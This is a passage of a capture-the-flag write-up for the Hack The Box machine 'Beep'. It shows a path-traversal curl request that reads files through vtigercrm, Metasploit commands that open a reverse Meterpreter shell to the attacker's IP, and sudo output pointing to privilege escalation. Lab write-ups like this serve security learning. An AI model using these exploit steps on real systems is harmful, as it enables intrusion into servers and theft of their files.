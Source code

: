 ```
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
spamfilter:x:500:500::/home/spamfilter:/bin/bash
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
fanis:x:501:501::/home/fanis:/bin/bash

# let's try to read fannis flag file
curl --insecure https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php\?module_name\=../../../../../../home/fanis/user.txt%00  | wc -c 
33 # 32 char flag + newline character
```


- I'll firstly look for any good looking RCE. We start by elimanting any authenticated RCE given that we don't have any credentials, then we choose the closet one to version 5.1.0 (Which can be known from `http://10.10.10.7/vtigercrm/`), we come to the conclusion that 5.4.0 AddEmailAttachment seems to be the finest pick.

```bash
msfconsole 
search AddEmailAttachment
use exploit/multi/http/vtiger_soap_upload
show options
set SSL yes
set RPORT 443 # HTTPs/SSL port
set RHOSTS 10.10.10.7 # server ip
set LHOST 10.10.14.5 # MY tun0 interface ip
run
un

[*] Started reverse TCP handler on 10.10.14.5:4444 
[*] Uploading payload...
[+] Upload successfully uploaded
[*] Executing payload...
[*] Sending stage (38288 bytes) to 10.10.10.7
[*] Meterpreter session 1 opened (10.10.14.5:4444 -> 10.10.10.7:45546) at 2021-01-21 09:37:42 -0600


meterpreter > shell
Process 4093 created.
Channel 0 created.
id
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
```
Which gets us the initial foothold as asterisk user which is a VOIP service and that's why the box is called Beep.

<h2> Priv Esc </h2>

priv esc is a tradational misuse of sudo priviledges.


```bash
sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
```